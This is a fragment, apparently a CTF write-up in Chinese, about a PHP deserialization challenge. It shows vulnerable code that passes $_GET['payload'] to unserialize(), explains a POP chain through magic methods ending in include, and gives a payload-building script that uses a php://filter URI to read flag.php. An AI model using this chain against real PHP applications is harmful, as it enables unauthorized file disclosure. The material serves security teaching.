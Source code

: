 ```
        }
}

}
class C{
  public $var;
  public $z;
    public function __toString(){
        return $this->z->var;
    }
}

class D{
  public $p;
    public function __get($key){
        $function = $this->p;
        return $function();
    }  
}

if(isset($_GET['payload']))
{
    unserialize($_GET['payload']);
}
?> 
```

可以看到在A类里有include函数，我们可以通过include来执行命令，这就是pop链的终点

整理一下思路可以看出

我们要先通过B类的wakeup，执行preg\_match函数，该函数会把B->q作为字符串进行匹配，然后就跳到C类的toString方法，该方法要return一个不存在的属性值，从而触发D类的\_\_get魔术方法，该方法会把p属性当作函数返回，触发A类的\_\_invoke魔术方法，最终进入include

```
POP链条：B:wakeup() ->  C:toString()  ->  D:__get()  ->  A:__invoke  -> include
```

最终如何读取文件？这里没有过滤掉filter，可以用他来读取文件

最终payload：

```
<?php
class A{
    public $var_1;
}

class B{
    public $q;
}
class C{
    public $var;
    public $z;
}

class D{
    public $p;
}
$b=new B();
$c=new C();
$b->q=$c;
$d=new D();
$c->z=$d;
$a=new A();
$d->p=$a;
$a->var_1='php://filter/convert.base64-encode/resource=flag.php';
```